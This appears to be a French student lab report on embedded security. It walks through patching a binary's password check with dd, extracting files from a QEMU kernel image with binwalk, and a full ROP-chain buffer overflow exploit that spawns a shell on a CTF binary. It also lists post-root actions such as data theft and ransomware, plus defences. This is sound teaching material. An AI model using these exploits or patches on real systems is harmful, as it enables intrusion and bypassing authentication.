




# Sécurité embarquée

## Emily

Compilation du code:
```bash
$ gcc program.c -o program
```

La commande `file` renvoie :

```bash
program: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3bb60bd488a208256800ce0dfa3d40e64bf77217, for GNU/Linux 3.2.0, not stripped

```

Dissassembly :

Afin de voir les instructions du binaire compilé précedemment, on utilise objdump avec les options
-S -l -C -F -t -w
Voici leurs utilités :
* -S : afficher le code source si possible
* -l : nombre de lignes
* -C : demangle (rend lisable par un humain)
* -F : affiche l'offset
* -t : table des symboles
* -w : formatage

Ce qu'on veut accomplir, c'est modifier le programme pour que le test renvoie que le mot de passe correcte peu importe le mot de passe tapé.



Ici dans la fonction is_valid on voit qu'a l'offset 11a4 on fait le test de comparaison. Si le test renvoie faux on execute l'offset 11af et on insère la valeur 0 dans le registre eax. Si le test est vrai, on voit à l'offset 11a8 qu'on met 0x01 sur le registre eax.

Il faut donc modifier ce qu'il se passe à l'offset 11b0
11b0 = 4528 donc l'octet à modifier est l'octet 4528.

```bash
$ printf '\x01' | dd of=program bs=1 seek=4528 count=1 conv=notrunc
```


### Questions

**Quelles sont les attaques possible sur une boucle for ?**

En effectuant un patching sur un programme disposant d'une boucle for, on peut agir et modifier la variable de contrôle de la boucle et ainsi provoquer une sortie prématurée de la boucle, ou au contraire, empêcher le programme de sortir de la boucle.

**Quelle défense est-ce je peux utiliser contre le patching ?**

Il est difficile de protéger un programme contre de tels attaque, néanmoins, un certain nombre de mesures peuvent être mises en place pour rendre la tache plus compliquée.
Une option est l'obfuscation du code. En rendant notre binaire désassemblé compliqué à lire et à comprendre, on augmente la complexité pour un attaquant de patcher le binaire.

## Retrouver et modifier Tux à l'aide de Binwalk

On dispose d'une image qui est émulée par qemu et dont on veut trouver un des assets (Tux) et ensuite le modifier. Pour celà nous allons utiliser l'outil binwalk.
Première étape: Retrouver l'image de tux.

```bash
$ binwalk -Me vmlinuz-qemu-arm-2.6.20

```
L'option -e demande à binwalk d'extraire tous les types de fichiers connus. L'option -M permet de faire ça récursivement. Le résultat obtenu est un ensemble de dossier menant à un système de fichiers linux:

"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/"

On retrouve tux dans le dossier
"_vmlinuz-qemu-arm-2.6.20.extracted/_31B0.extracted/_E7E0.extracted/cpio-root/usr/local/share/directfb-examples/tux.png"


## Speedrun Bufferoverflow

On va faire segfault le programme lorsqu'il demande une entrée utilisateur.
Après plusieurs essais, il semblerait que le programme plante quand on entre 1025 caractères.



Nous allons maintenant créer notre rop chain à l'aide de ropper et écrire notre exploit:

```python

#!/usr/bin/env python
# Generated by ropper ropchain generator #
from struct import pack

p = lambda x : pack('Q', x)

IMAGE_BASE_0 = 0x0000000000400000 # 95fd123f83e8d4235fb2e3463ec369da68685c2479a0cb62baa251165484d22c
rebase_0 = lambda x : p(x + IMAGE_BASE_0)

rop = ''

rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += '//bin/sh'
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x000000000000dafb) # 0x000000000040dafb: pop r13; ret; 
rop += p(0x0000000000000000)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000068759) # 0x0000000000468759: mov qword ptr [rdi], r13; pop rbx; pop rbp; pop r12; pop r13; ret; 
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += p(0xdeadbeefdeadbeef)
rop += rebase_0(0x0000000000000686) # 0x0000000000400686: pop rdi; ret; 
rop += rebase_0(0x00000000002b90e0)
rop += rebase_0(0x00000000000101f3) # 0x00000000004101f3: pop rsi; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x000000000004be16) # 0x000000000044be16: pop rdx; ret; 
rop += rebase_0(0x00000000002b90e8)
rop += rebase_0(0x0000000000015664) # 0x0000000000415664: pop rax; ret; 
rop += p(0x000000000000003b)
rop += rebase_0(0x0000000000074e65) # 0x0000000000474e65: syscall; ret; 

buffer = "A"*1024 + "B" * 8
open('rop','w').write(buffer + rop + "\n")
```
Les 8 B servent à écraser le registre rsp et on met notre ropchain juste après.

Maintenant pour exploiter le buffer overflow on lance cette commande
```bash
(cat rop; cat) | ./speedrun-001 
```

Vérifions que cela fonctionne correctement.



### Questions

**Que peut on faire une fois root?**

Maintenant que nous sommes root sur la machine, plusieurs possibilités s'offre à nous :
 
* Voler des données sensibles (mot de passes, donées personneles, donées confidentielles)
* Mettre en place un accès privilégier et persistent. Il nous est possible d'installer des programmes malveillant afin de conserver notre accès root à la machine dans le futur
* Déployer un ransomware pour extorquer de l'argent
* etc.

**Cette méthode est elle applicable dans le cas d'un use after free?**

Afin de réaliser cette attaque dans le cas d'un use after free, il faudrait réussir à passer notre exploit ou une référence vers notre exploit à un espace mémoire libéré par le programme. 

**Qu'est-ce que je peux faire pour diminuer / contrer les bugs ?**

Il serait judicieux de bien contrôler les entrées des utilisateurs pour tenter de mitiger les attaques. De plus, l'activation des protections systèmes comme l'ASLR et les canarys rendent ce genre d'attaque bien plus difficile à effectuer.

## Toolbox 

### Questions

**Quels sont les critères qui rendent une vulnérabilité critique?**

Plusieurs critères rentrent en compte pour établir la criticité d'une vulnérabilité.
On note notamment la complexité de l'exploitation, les privilèges requis, le vecteur d'attaque (local,physique ou réseau par exemple), l'impact de la vulnérabilité. 

**Selon ces critères, quelle interface devrait être testée en premier? Pourquoi?**

Je dirais que les interfaces les plus sensibles sont les interfaces RJ45 et Wifi. Ces deux interfaces sont celles qui relient l'ordinateur à Internet et sont donc exposées à un nombre de menaces potentielles élevé. Leur compromission permettrait à l'attaquant de totalement controler le flux internet de la victime.
